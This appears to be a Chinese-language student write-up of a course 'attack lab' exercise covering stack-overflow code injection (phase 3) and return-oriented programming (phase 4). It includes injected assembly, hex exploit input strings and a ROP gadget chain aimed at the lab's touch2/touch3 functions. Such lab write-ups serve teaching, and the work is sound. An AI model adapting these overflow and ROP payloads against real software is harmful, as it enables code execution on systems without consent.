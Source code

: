 # phase_3:栈数据被覆盖

phase3与phase2很类似,不同之处有2:
1. 需要传递指针,而不是数字,因此需要寻找空间写入字符,并将字符出首地址作为参数传入
2. touch3文件中存在对栈数据的覆盖,因此需要寻找合适的地方写入字符

这里同样需要考虑栈的情况, touch3中调用了函数hexmatch, hexmatch函数中有这样一条语句`add $0xffffffffffffff80,%rsp`, `0x$0xffffffffffffff80`是负数,即-128,这句话的意思实际上等价于`sub 128, %rsp`, 至于为什么不用,不是很清楚.一般情况是需要计算栈顶位置,然后在栈顶处进行分配,我则直接选择将数据向栈底靠近,使得能够避免被覆盖

使用的汇编代码如下:
```
movq  $0x5561dca8, %rdi
pushq $0x4018fa
retq
```

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
00 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00
78 dc 61 55
00 00 00 00
35 39 62 39
39 37 66 61
00 00 00 00
```

# phase_4:ROP面向ret编程

由于栈随机初始化和可执行区域的限制,程序并不被运行在栈中进行执行,因此我们只能使用已存在的代码进行攻击.实际上汇编指令只是一串串字节流而已,因此我们可以从已有的代码中面向ret进行编程

如:
```s
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```

其中 `48 89 c7` 是 `mov %rax, %rdi`, 如果我们从`0x400f18`处开始执行,就可以实现ROP了.

因此需要根据这样的片段进行执行.

有一个问题就是,我们无法直接操作堆栈,应该如何传递数据呢?这里利用提供的farm函数,在其中找到popq和mov操作,这样就可以完成数据从传递了

利用Gets写入字符串即可

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 # pop函数的地址
fa 97 b9 59 00 00 00 00 # 被pop的数据
a2 19 40 00 00 00 00 00 # mov函数的地址
ec 17 40 00 00 00 00 00 # touch2函数
```
